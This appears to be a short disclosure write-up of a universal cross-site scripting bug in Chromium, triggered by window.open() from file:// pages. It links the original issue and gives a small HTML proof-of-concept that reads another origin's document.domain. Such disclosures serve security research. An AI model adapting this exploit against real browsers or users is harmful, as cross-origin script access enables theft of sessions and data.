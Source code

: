 # Security: UXSS via window.open() via file:// pages

<video src="./steps.mp4" />

Poc:
```html
<body>
  <button onclick="fsBypass(document.documentElement);">click Here</button>
  <script>
    function fsBypass(element) {
      var x = window.open("http://abc.xyz");
      x.alert();
      setTimeout(function() {
        x.alert(x.document.domain);
      }, 70)
    }
  </script>
</body>
```

Link: https://bugs.chromium.org/p/chromium/issues/detail?id=594383
